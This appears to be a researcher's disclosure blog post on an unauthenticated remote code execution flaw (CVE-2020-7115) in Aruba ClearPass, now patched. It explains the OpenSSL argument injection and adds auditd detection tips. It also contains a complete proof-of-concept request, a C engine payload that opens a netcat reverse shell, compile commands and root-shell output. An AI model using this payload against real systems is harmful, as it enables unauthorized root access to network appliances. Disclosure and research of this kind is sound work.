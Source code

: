 ```yaml
---
title:  "Aruba Clearpass RCE (CVE-2020-7115)"
layout: post
date:   2020-09-18
permalink: posts/aruba-clearpass-rce
---
```


**Unauthenticated RCE in Aruba ClearPass Policy Manager <= 6.9.0 (CVE-2020-7115)**

I discovered an unauthenticated RCE vulnerability in Aruba ClearPass Policy Manager that I reported to Aruba, and it is now fixed. The Aruba security bulletin is available at [ARUBA-PSA-2020-005.txt](https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2020-005.txt). Exploiting this vulnerability uses a couple of interesting tricks that I'll explain in this post. 

## Discovery
I first discovered something interesting when I was looking through the unauthenticated attack surface of ClearPass, and grabbed a list of actions from the `struts.xml` file, and fed them to Burp Intruder. Several pages returned a response other than a 302 to the login page, although the majority of these were login related. The most interesting of these was the `tipsSimulationUpload.action` endpoint, which returned a 200 response to a GET request with the message "No file has been uploaded". 

After looking at the application log to figure out what was going on, I found it needed a few parameters to be set. By reading the application's decompiled Java code, I figured out this was an upload endpoint for certificate files, used in the "Policy Simulation" functionality of the application. A valid call to the endpoint looks like:

```
POST /tips/tipsSimulationUpload.action HTTP/1.1
Host: 192.168.200.81
Connection: close
Content-Length: 16425
Content-Type: multipart/form-data; charset="utf-8"; boundary=----WebKitFormBoundarySCYwHjrAcRBmbkPK
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="clientPassphrase"

password
------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="uploadClientCertFile"; filename="a.pfx"
Content-Type: application/octet-stream

<CERT FILE>
------WebKitFormBoundarySCYwHjrAcRBmbkPK--
```

In my experience, certificate handling code is a rewarding area to audit, as developers often shell out to the OpenSSL binary, rather than handling the certificate using a code library. In the case of ClearPass, if a client certificate was uploaded in the call to the endpoint, the contents were copied to a temporary file in the `/tmp/` directory. The temporary file was created using the Java `createTempFile` function, which gives the temporary file a random name, and a fixed extension, so that the file looks like `/tmp/clientCertFile{RAND}.txt` This means that we have no ability to control the file name, only the contents. 

After the certificate contents were copied into the temporary file, the code attempted to "validate" the client certificate by determining whether the password parameter in the request was able to decrypt the certificate. This was performed by passing the temporary file name and the password as arguments to a shell script, which called `openssl pkcs12` and checked whether it returned successfully or not. 

The shell script looked like this:

**verifyClientCertFile.sh**
```
#! /bin/bash

openssl pkcs12 -in $1 -passin pass:$2 -noout -nokeys > /dev/null
```

Unfortunately for attackers, this shell script is invoked from Java by breaking up the arguments into an String array, then passing the array to ProcessBuilder. Under the hood ProcessBuilder will use execve on a String[], which prevents command injection.

However, as the "pass" argument in the `verifyClientCertFile.sh` script is not quoted, we do have the ability to inject **arguments** to OpenSSL, which can result in arbitrary code execution.  This is something I have detailed in further in my [OpenSSL argument injection](openssl-arginjection) post. 

Basically the short version is that if 

a) you are able to place a file on disk that can be interpreted as an OpenSSL engine file

b) you can provide and control the `-engine` argument to OpenSSL

then you can execute arbitrary code. Often the tricky part of this is getting the engine file on disk for OpenSSL to execute. Not content with leaving this as an authenticated issue (there are many post-authentication ways of uploading files in ClearPass), I tried to figure a way around. I then realised that the certificate upload was not validated to see if it looked like a certificate - it was just placed in the temporary file as is, and then passed to the validation shell script. Of course, the problem here is that we don't know the uploaded file name, as it is randomly generated. I briefly checked the implementation to see if the randomness was in some way predictable, but in OpenJDK this is [implemented using SecureRandom](https://hg.openjdk.java.net/jdk8/jdk8/jdk/file/687fd7c7986d/src/share/classes/java/io/File.java#l1901). 

What I then realised is that as the password argument passes unquoted through a shell script, we can the wildcard character * , which will be evaluated. This means we don't actually **need to know** the uploaded file name - we can just pass a path like `/tmp/clientCertFile*.txt` and the shell script will substitute in a valid path for us! 

This lack of quoting means we can upload an OpenSSL engine file as the certificate, and in the same request set the passphrase to an argument injection that references the temporary certificate file without knowing its actual name. 

After firing off a request with the passphrase `'a' -engine /tmp/clientCertFile*.txt` and a compiled OpenSSL engine file I received a reverse shell:

```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.168.200.81.
Ncat: Connection from 192.168.200.81:60246.
id
uid=0(root) gid=0(root) groups=0(root)

```

## Proof of Concept
The final proof of concept HTTP request looks like:

```
POST /tips/tipsSimulationUpload.action HTTP/1.1
Host: 192.168.200.81
Connection: close
Content-Length: 16425
Cache-Control: max-age=0
Origin: https://192.168.200.81
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; charset="utf-8"; boundary=----WebKitFormBoundarySCYwHjrAcRBmbkPK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.162 Safari/537.36
Sec-Fetch-Dest: iframe
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: https://192.168.200.81/tips/tipsContent.action
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="clientPassphrase"

'a' -engine /tmp/clientCertFile*.txt
------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="uploadClientCertFile"; filename="a.pfx"
Content-Type: application/octet-stream

<OPENSSLENGINEBINARY>
------WebKitFormBoundarySCYwHjrAcRBmbkPK--
```

and engine file:

```
#include <unistd.h>

__attribute__((constructor))
        static void init() {
                    execl("/bin/sh", "sh", "-c","nc -e /bin/bash <IP> 1234",NULL);
        }

```
compile with:
`gcc -fPIC -o a.o -c a.c && gcc -shared -o a.so -lcrypto a.o`


If you are trying to replicate this, the POC will only work the first time. This is because when the disk contains multiple clientCertFiles they are all passed as arguments, which is not a valid way to call OpenSSL. You can work around this! - figuring out how is up to you. 


This bug was reported to Aruba, and fixed in 6.9.1. The best mitigation for this issue and others is to ensure you keep your ClearPass instance up to date with the latest patches, and restrict network access to the management interface to authorised endpoints.


#### BONUS: Finding argument injections

One of the best ways I have discovered to find and validate argument injections in complex code is to set up the auditd daemon, and monitor calls to shells and binaries that are being called such as OpenSSL and tar. You can do it like (taken [from here](https://serverfault.com/questions/736753/how-to-log-execution-of-a-specific-binary-script-using-auditd-or-other)):

```
# systemctl start auditd 
# auditctl -w /bin/sh -p x -k my_execs
# auditctl -w /bin/bash -p x -k my_execs
# auditctl -w /bin/openssl -p x -k my_execs
# ausearch -i -k my_execs
```

The ausearch command will display the invocations of the two shells and OpenSSL. So in the case of this ClearPass vulnerability, when we submit the passphrase  `'a' /tmp/a*` the ausearch command shows the following invocations (some information trimmed)

```
type=EXECVE msg=audit(09/17/2020 13:54:28.528:34154) : argc=4 a0=/bin/bash a1=/usr/local/avenda/tips/bin/tipsAdmin/verifyClientCertFile.sh a2=/tmp/clientCertFile3903733629309270609.txt a3=a /tmp/a* 
--
type=EXECVE msg=audit(09/17/2020 13:54:28.530:34155) : argc=9 a0=openssl a1=pkcs12 a2=-in a3=/tmp/clientCertFile3903733629309270609.txt a4=-passin a5=pass:a a6=/tmp/avenda-postgresql.conf a7=-noout a8=-nokeys 
```

Note the `/tmp/a*` is expanded to `/tmp/avenda-postgresql.conf`, a file that exists on disk. You can also see the `a3=a /tmp/a*` in the bash execution, and in the OpenSSL execution the value has been split like `a5=pass:a a6=/tmp/avenda-postgresql.conf`. When you see that arguments you have provided separated by a space or spacelike character are split into different a{N} values, this indicates an argument injection is possible. An unsuccessful injection in non-vulnerable code would have an OpenSSL call that looked like this:

```
type=EXECVE msg=audit(09/17/2020 11:25:22.153:5227) : argc=8 a0=openssl a1=pkcs12 a2=-in a3=/tmp/clientCertFile4516591877132007270.txt a4=-passin a5=pass:a /tmp/a* a6=-noout a7=-nokeys 
```
In this one the wildcard was not expanded, and the spaces have not separated the `a` from the `/tmp/a*` path into a5 and a6.

